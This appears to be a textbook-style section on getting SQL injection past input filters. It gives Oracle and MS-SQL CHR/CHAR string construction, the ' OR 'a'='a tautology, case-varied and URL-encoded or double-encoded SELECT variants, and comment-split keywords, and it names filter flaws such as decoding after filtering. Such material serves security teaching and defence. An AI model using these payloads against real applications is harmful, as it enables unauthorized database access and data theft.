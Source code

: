 # Bypassing Filters

Some applications attempt to sanitize or block SQL injection attacks using input filters. These are often flawed or incomplete and can be bypassed using creative techniques.

---

## **Avoiding Blocked Characters**

If certain characters are stripped or encoded, try alternatives to achieve your goals:

- **Single Quote Alternatives**:
  - Not needed if injecting into **numeric fields** or **column names**.
  - You can **construct strings dynamically** using ASCII functions.

  **Oracle**:
  ```sql
  SELECT ename, sal 
  FROM emp 
  WHERE ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)
  ```

  **MS-SQL**:
  ```sql
  SELECT ename, sal 
  FROM emp 
  WHERE ename=CHAR(109)+CHAR(97)+CHAR(114)+CHAR(99)+CHAR(117)+CHAR(115)
  ```

- **Comment Symbol Blocked?**  
  Structure your input so comments aren't required:
  ```sql
  ' OR 1=1--        →   ' OR 'a'='a
  ```

- **Semicolon Blocked in MS-SQL?**  
  You can still perform **batched queries** without a semicolon if the syntax remains valid.

---

## **Circumventing Simple Validation**

When input is sanitized using blacklists, look for poor validation or canonicalization.

**Examples:**
- If `SELECT` is blocked try:
  ```sql
  SeLeCt
  %00SELECT
  SELSELECTECT
  %53%45%4c%45%43%54
  %2553%2545%254c%2545%2543%2554
  ```

---

## **Using SQL Comments**

- **Standard inline comments** can simulate whitespace:
  ```sql
  SELECT/*foo*/username,password/*foo*/FROM/*foo*/users
  ```

- **MySQL-specific comment injection inside keywords**:
  ```sql
  SEL/*foo*/ECT username,password FR/*foo*/OM users
  ```

  ➤ This is effective against filters that match exact SQL keyword tokens.

---

## **Exploiting Defective Filters**

Many filters have **logical flaws**, such as:

- **Order-of-operations bugs** (e.g., decoding after filtering)
- **Non-recursive sanitization** (applies only once)

You can often **smuggle blocked payloads** by exploiting these oversights.

➤ These techniques are covered more deeply in **Chapter 11**.

---

## TIP

*Always test variations of casing, encoding, and structure. Poorly written filters often match exact strings or fail to decode input before validation.*

---
